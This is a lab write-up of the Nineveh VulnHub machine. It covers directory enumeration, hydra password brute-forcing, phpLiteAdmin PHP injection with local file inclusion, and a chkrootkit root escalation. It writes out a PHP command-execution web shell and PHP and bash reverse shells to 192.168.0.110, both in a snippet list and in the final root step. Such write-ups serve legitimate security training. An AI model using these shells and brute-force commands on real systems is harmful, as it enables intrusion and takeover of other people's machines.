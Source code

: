 # init
This is a writeup for the vulnhub version of Nineveh. To make it easier for future me to look up utilized functions, this section contains code snippets.

+ cmds via PHP `<?php echo system($_REQUEST["arg"]); ?>`
+ php shell `'<?php $sock=fsockopen(“192.168.0.110”,1234);exec(“/bin/bash -i <&3 >&3 2>&3”);?>'`
+ bash shell `/bin/bash -i > /dev/tcp/192.168.0.110/5555 0<&1 2>&1`
+ [process diff](#privilege-escalation)


## Enumeration

The initial nmap scan reveals services at port 80 and 443, which is an indicator for a web server accessible via http and https. 
Enumerating directories and files with nikto and dirbuster with the default wordlists returns only 3 files for the service on port 80. One of them is an `info.php` script. The script generates a view from general information of the underlying system. This could come in handy at some point.

![phpinfo page](img/phpinfo.png)

In the next step, directory enumeration for the service on port 443 is performed. Scanning with `dirb https://192.168.0.150` reveals a directory called `db` among some common and non-informative files. When accessing the directory, a visitor gets forwarded to an index.php file, allowing log in to a phpliteadmin v1.9 instance. By using searchsploit, this version can be identified as vulnerable to PHP code injection, though it requires authentification.

![phplite sploit](img/searchsploit_phplite.png)

## Getting log in credentials
Since none of the sites are exposing functionality that could be compromised, it is probably necessary to acquire log in credentials through a dictionary attack.
The following hydra command is issued: `hydra -l nop -P /usr/share/wordlists/rockyou.txt 192.168.0.150 https-post-form /db/index.php:"login=Log+In&password=^PASS^&proc_login=true:Incorrect password."`. 
A first attempt was performed with the top 10k passwords from [Daniel Miesslers SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells). Since this did not result in a match, a second attack using `rockyou.txt` was started.
After approximately 1000 tries, a successfull login was detected for the password _password123_.

![hydra phplite](img/hydra_phplite.png)

From here on forward, we are able to create databases, tables and we can also create arbitrary files in `/var/tmp`. Furthermore, this version of phpliteadmin allows to create executable php scripts by inserting php code as a field. This process is illustrated in the corresponding searchsploit PoC `searchsploit -x exploits/php/webapps/24044.txt`.
Possible php shell code can be taken from pentestmonkey , e.g. `'<?php $sock=fsockopen(“192.168.0.110”,1234);exec(“/bin/bash -i <&3 >&3 2>&3”);?>'`.

Since we cannot execute the file in any way from the phpliteadmin interface, we have to find another way. Back to the port 80 service, a scan with a bigger wordlist is performed `dirb http://192.168.0.150 /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`. This reveals the `department` directory and another login page. 

Using `hydra -l admin -P ../bsides_vancouver_2018/10-most-common.txt 192.168.0.150 http-post-form /department/login.php:"username=^USER^&password=^PASS^:Invalid"` the password `1q2w3e4r5t` for the user `admin` is discovered. In this case, the _10k-most-commont.txt_ password list from Daniel Miesslers SecLists was enough to find a match. This means not having to fall back to `rockyou.txt`, which saves time due to the size of the list.

![department](img/login_department.png)

As can be seen from the URL in the above image, a local file is opened and returned by one of the department pages. Trying out different other files (`/etc/passwd`, `../../../../../../../etc/passwd`) does not seem to work, because no input is returned. But when the file identifier of the file in use is modified a `file not found` error message is returned. Further testing indicates a local file inclusion vulnerability with restrictions regarding the file name.

## Getting a shell
At this point I had access to both web pages and could create and modify local files through the database. The files were furthermore accessible via the local file inclusion. 
In combination, this allowed for remote code execution.

Analogue to the procedure described by the Code Execution PoC from searchsploit, a table with one field was created. As the fieldname, the following php code was used `<?php echo system($_REQUEST["arg"]); ?>`. This allowed to issue multiple commands by specifying them as parameters for the request. To get a shell on the system, burp suite was used to allow for easier encoding and manipulation of request headers and parameters. 
To be able to execute the script it had to be named `ninevehNotes.php`. The file name was required due to the restriction regarding the local file inclusion.

![burp get shell](img/burp_getting_shell.png)

Since the vulnhub version seemed to lack a netcat binary, and usage of bash shells failed, the php shell from [pentestmonkey](pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) was used. Directly executing the php shell by creating a table entry from it failed for unknown reasons. Therefor it was sent as an URL encoded argument to the `echo system` php file via burp suite.
This basic shell can then be upgraded by using the python pty module and sending the shell to background, and setting stty options.

![shell upgrade](img/upgrade.png)

Looking through the home directory only one userdir can be found `/home/amrois`. It contains a user.txt file which is only readable by the user, so we have to come back later to this.

## privilege escalation
My general internal enumeration process consists of checking SUID binaries with
`find / -perm /4000 2>/dev/null`, checking `/etc/crontab` and crontabs of available users, looking for unique processes in `ps aux` and for network services with `netstat -tulpen` and `ss -tlpn`, as well as data in the user directories.
Among the network services was SSH, but due to a lack of available user account data I did not consider following this lead.

After a while of looking around I stumbled onto the `/report` directory, which is not usually found in the file system root.
Checking the files indicated recent write activity. An unknown process is generating one file every minute.
To identify the process I used a diff of the process list, after unsuccessfully trying to catch it via a similar approach using `lsof`.
Since not much is writeable by the `www-data` user, the script was build in `/tmp`.
```
#!/bin/bash

IFS=$"\n" # set field separator to newline, instead of space
stuffo=$(ps aux)
while true; do
  stuff=$(ps aux)
  diff <(echo $stuffo) <(echo $stuff)
  sleep 1
  stuffo=$stuff
done
```
The script is not optimal since it prints unnecessary data and processes, due to containg the process identifier. I had two processes switching pid with every diff performed, this generated some noise but was still acceptable. I might be able to eliminate the noise by using `cut` to trim the data or by finding an option for `ps` that returns only the process name.  
As for the process doing the writes, there were two in question `knockd` and `chkrootkit`.
By looking them up, it was clear from the log files, that `chkrootkit` was responsible for these logs, because they contained logging output indicating a scanner.
Additionally a searchsploit entry exists for chkrootkit, revealing that arbitrary code located in `/tmp/update` gets executed by it. Since the service runs as root, this could lead to root access.

## Getting root
To get root from chkrootkit the file `/tmp/update` was created with the following content:

```
#!/bin/bash
/bin/bash -i > /dev/tcp/192.168.0.110/5555 0<&1 2>&1
```

After waiting for around a minute the root shell connected. 